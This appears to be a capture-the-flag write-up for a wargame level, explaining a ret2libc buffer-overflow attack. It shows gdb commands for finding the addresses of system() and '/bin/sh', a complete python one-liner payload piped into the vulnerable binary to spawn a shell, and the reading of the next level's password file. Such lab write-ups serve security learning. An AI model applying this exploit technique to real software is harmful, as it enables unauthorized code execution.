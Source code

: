 ## LEVEL2

For this level, we can notice that we won't be able to replace the return value with a function address because of the check condition. So we'll be using the *Ret2libc* method to exploit the binary.

> The **Ret2libc** is an exploit that replaces the return value with a function address and then the next bytes of the memory is replaced with addresses of the libc functions.

First, we'll need to find the address for *system()* and */bin/sh*. To do so, we'll be using *gdb*.\
-> `gdb level2`\
-> `(gdb) b p`\
-> `(gdb) r`\
-> `p system`\
We have the address of *system()* that is *0xb7e6b060*.\
-> `info proc map`\
From here, we'll search for */bin/sh* throughout all the libc.\
-> `find 0xb7e2c000, 0xb8000000, "/bin/sh"`\
And we also have the address of */bin/sh*, of *0xb7f8cc58*.

Finally, we'll need the address of the *return* in the function.\
-> `disas p`\
And we can see that it is *0x0804853e*.

And then, to exploit it, we'll just need to make a payload with all those informations, using an offset of 80 because the 4 bytes after the buffer size is storing *%ebp*. Following the sample of *payload = A\*80 + address of return + address of system + "DUMM" + address of /bin/sh*.\
-> `python -c 'print("A"*80 + "\x3e\x85\x04\x08" + "\x60\xb0\xe6\xb7" + "DUMM" + "\x58\xcc\xf8\xb7")' > /tmp/payload2`\
-> `cat /tmp/payload2 - | ./level2`


And there, we have a Shell prompt, so we can get the flag for the next level.\
-> `cd ..`\
-> `cat level3/.pass`